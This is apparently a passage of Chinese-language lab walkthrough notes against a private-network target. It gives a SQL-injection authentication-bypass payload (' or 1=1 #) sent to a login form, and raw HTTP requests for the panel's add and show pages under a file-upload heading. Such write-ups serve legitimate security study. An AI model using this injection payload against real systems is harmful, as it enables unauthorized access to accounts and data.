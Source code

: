 http://192.168.70.46

```bash
http://192.168.70.46/

login=let's+login&ps=\&un=' or 1=1 #
```

## 文件上传

http://192.168.70.46/panel.php

### Add

文件上传：http://192.168.70.46/add.php

```bash
POST /panel.php HTTP/1.1
Host: 192.168.70.46
Content-Length: 26
Cache-Control: max-age=0
Origin: http://192.168.70.46
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.46/panel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9d1gbt6tl01gh301ffnjffgn07
Connection: keep-alive

load=add&continue=continue
```



### show

http://192.168.70.46/show.php

```bash
POST /panel.php HTTP/1.1
Host: 192.168.70.46
Content-Length: 27
Cache-Control: max-age=0
Origin: http://192.168.70.46
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.46/panel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9d1gbt6tl01gh301ffnjffgn07
Connection: keep-alive

load=show&continue=continue
```
